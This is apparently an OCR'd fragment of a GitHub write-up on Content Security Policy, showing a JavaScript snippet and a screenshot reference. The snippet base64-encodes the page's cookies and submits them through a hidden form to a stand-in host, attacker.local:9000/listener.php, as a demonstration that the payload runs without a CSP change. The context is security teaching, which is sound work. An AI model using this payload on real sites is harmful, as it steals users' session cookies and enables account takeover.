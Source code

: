 ```javascript
//CKE => Cookie
//BDY = Body
//FRM => Form
//PRM => Form parameter
let cke = btoa(document.cookie);
let bdy = document.getElementsByTagName("body")[0];
let frm = document.createElement("form");
frm.setAttribute("method", "post");
frm.setAttribute("action", "//attacker.local:9000/listener.php");
let prm = document.createElement("input");
prm.setAttribute("type", "hidden");
prm.setAttribute("name", "data");
prm.setAttribute("value", cke);
frm.appendChild(prm);
bdy.appendChild(frm);
frm.submit();
```

💻 Execution without changing the CSP policy:

![option-b-04](printscreens/csp-option-b-04.png)
